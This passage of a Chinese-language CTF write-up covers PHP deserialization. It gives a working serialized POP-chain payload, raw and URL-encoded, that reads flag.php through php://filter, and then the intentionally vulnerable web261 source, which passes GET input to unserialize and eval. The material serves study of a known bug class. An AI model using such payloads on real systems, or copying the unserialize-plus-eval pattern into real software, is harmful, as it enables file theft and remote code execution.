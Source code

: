 ```php
echo "\n";
?>
```
修改`Modifier`类的变量`$var`的值即可文件包含，运行结果如下：
```shell
O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";s:8:"anything";s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:"<0x00>*<0x00>var";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}}}s:3:"str";N;}
O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22anything%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
```
注意：由于字符00不可见，所以这里用`<0x00>`代替，将上述url编码部分作为GET请求pop参数发送即可。


#### 3. 示例3 ctfshow 反序列化web261
这题目在ctfshow是需要VIP的。。所以这里是参考附链文章提供的源码做的。
源码如下：
```php
<?php

highlight_file(__FILE__);

class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __invoke(){
        eval($this->code);
    }

    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}

unserialize($_GET['vip']);
```
这里有几个知识点，
- `file_put_contents`是写文件函数，第一个参数输入文件名，第二个参数输入文件内容；
- `__wakeup` 和 `__unserialize`都存在时，`__wakeup`会失效；
- `__unserialize`方法带来在反序列化的时用到。